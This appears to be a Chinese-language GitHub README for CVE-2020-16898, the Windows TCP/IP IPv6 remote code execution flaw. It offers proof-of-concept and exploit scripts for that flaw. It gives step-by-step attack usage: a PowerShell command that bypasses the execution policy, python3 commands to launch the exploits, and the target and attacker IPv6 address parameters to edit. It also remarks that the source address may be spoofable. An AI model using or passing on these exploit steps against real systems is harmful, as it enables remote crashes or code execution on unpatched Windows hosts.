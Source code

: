 # CVE-2020-16898

CVE-2020-16898 Windows TCP/IP远程代码执行漏洞 EXP&amp;POC

## 复现

forforever：https://www.cnblogs.com/forforever/p/13846077.html

## poc



**CVE-2020-16898_Checker-poc**


命令：

管理员启动powershell/CMD

```
Powershell.exe -ExecutionPolicy UnRestricted -File .\CVE-2020-16898-poc.ps1
```




## exp

**cve-2020-16898-exp2**

条件：能和目标通信，知道目标的本地链接IPv6地址

使用

```
修改代码中的dst参数为目标的本地链接IPv6地址
然后攻击机执行
python3 CVE-2020-16898.py即可
```

![image-20201020130144332](images/image-20201020130144332.png)

![img](images/T[XU6BDGPR287]CGSX4EM5P.png)





**CVE-2020-16898-exp1.py**

需要目标的“ipv6地址”或者“临时ipv6地址”和自己的本地链接的ipv6地址

```
v6_dst = "fd15:4ba5:5a2b:1008:109f:9a46:8d19:f103"	#修改为目标机的ipv6地址 或者 临时ipv6地址
v6_src = "fe80::501a:49b7:b7d:5362%12"				      #攻击者的本地ipv6地址
```

但是测试时发现填写目标的本地链接ipv6地址也可以，不知道是不是本地测试的原因，还是源IPv6地址可以伪造

修改完之后直接执行

```
python3 CVE-2020-16898-exp1.py
```

